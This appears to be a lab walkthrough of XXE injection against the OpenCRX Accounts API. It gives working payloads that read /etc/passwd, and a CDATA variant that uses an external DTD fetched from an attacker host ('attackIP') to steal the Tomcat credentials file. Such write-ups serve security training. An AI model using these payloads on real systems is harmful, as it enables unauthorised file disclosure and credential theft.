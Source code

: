 ## Finding the Vector
To find the vector we need to understand what we're looking for.
For instance, we take the following xml code:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

Here, when the XML parser, parses the code, it will replace the entity reference "&lastname" with the entity's value "Replaced".
The result that would be displayed is "Tom Replaced".

Similarly, if we change the XML entity to an external entity, and reference a file on the server:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

A vulnerable parser will load the file contents and place them in the XML document. A vulnerable parser would read in the contents of /etc/passwd and place that content in between the _lastName_ tags.
If the _lastName_ contents are included in a server response or we can retrieve the data in another way after the XML has been parsed, we can use this vulnerability to read files on the server.
Ideally, we would inject the XXE payload into a field that is displayed in the web application.

## OpenCRX XXE
After spending some time familiarizing ourselves with the application, the Accounts page seems like a good fit because the Accounts API accepts XML input.
If we can successfully create accounts using XXE payloads in one of these fields, such as a name field, we should be able to view the results of our XXE attack in the web application.

We head over to Manage accounts -> Wizards -> Explore API:

![](../../03.%20Images/t6-ss17.png)

On the API Explorer page for the Accounts API, we can use a POST to /account as the basis of our attack.

![](../../03.%20Images/t6-ss18.png)

We can also change the Request body to application/xml to send XML data instead of JSON:

![](../../03.%20Images/t6-ss19.png)

To understand what type of code goes in here, we can visit the [documentation](https://www.opencrx.org/opencrx/2.3/new.htm):

![](../../03.%20Images/t6-ss20.png)

We will be using the same code as given in the example.
Filling the code in, and pressing execute, we view the response in burp, and we see that the code is indeed working:

![](../../03.%20Images/t6-ss21.png)

We will move on and edit the code to include an internal entity:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

Executing the code, we see that the internal entity works:

![](../../03.%20Images/t6-ss22.png)

With the internal entity working, we will modify our code, to include an external entity to reference a file on the underlying server and find out if we can retrieve the contents.
We will use the following xml code:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

Even though we run into an error:

![](../../03.%20Images/t6-ss23.png)

Going through the full response, we see that even though an error occurred, we are still able to read the contents of the etc/passwd file:

![](../../03.%20Images/t6-ss24.png)

The error we get is _java.sql.SQLDataException_, which usually indicates a data error occurred when an SQL statement was executed.
Our exploit was able to fetch the data of the file.
However, the contents of the file were too large for the column size, causing the error.
That does not matter as we're still able to extract the contents of the file we specified.

## Using CDATA
XML parsers can encounter errors, if we attempt to read files containing XML or key characters used in XML as delimiters, such as < and >.
We need to make sure that our XML content remains properly formatted after the file contents are inserted.
Much like HTML, XML supports character escaping.
We can't use this with external entities, however, since we aren't able to manipulate the content of the files we are attempting to include.

XML supports _CDATA_, sections in which internal contents are not treated as markup.
If we can wrap file contents in CDATA tags, the parser will not treat it as markup, resulting in a properly-formatted XML file.

The point of using CDATA is to fetch sensitive xml files on the server, such as the tomcat-users.xml file, which contains the apache TomEE user credentials.

We will create two new entities that will act as the opening and closing CDATA tags.
We will receive an XML parser error if we try to concatenate three entities together, so we'll need an additional entity to act as a "wrapper" for the CDATA entities and the file content entity.
However, we can't reference a single entity from another entity within the DTD in which they are defined.
Thus, we will be using parameter entities that can be referenced by the "wrapper" entity, in an external DTD file hosted on our attacker machine.
Our DTD file will look like so:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```

We will update our exploit to the following:

```XML
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://attackIP/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

Sending the code, and viewing the response, we see that the xml file:

![](../../03.%20Images/t6-ss25.png)

We now have the credentials for all the users of the server.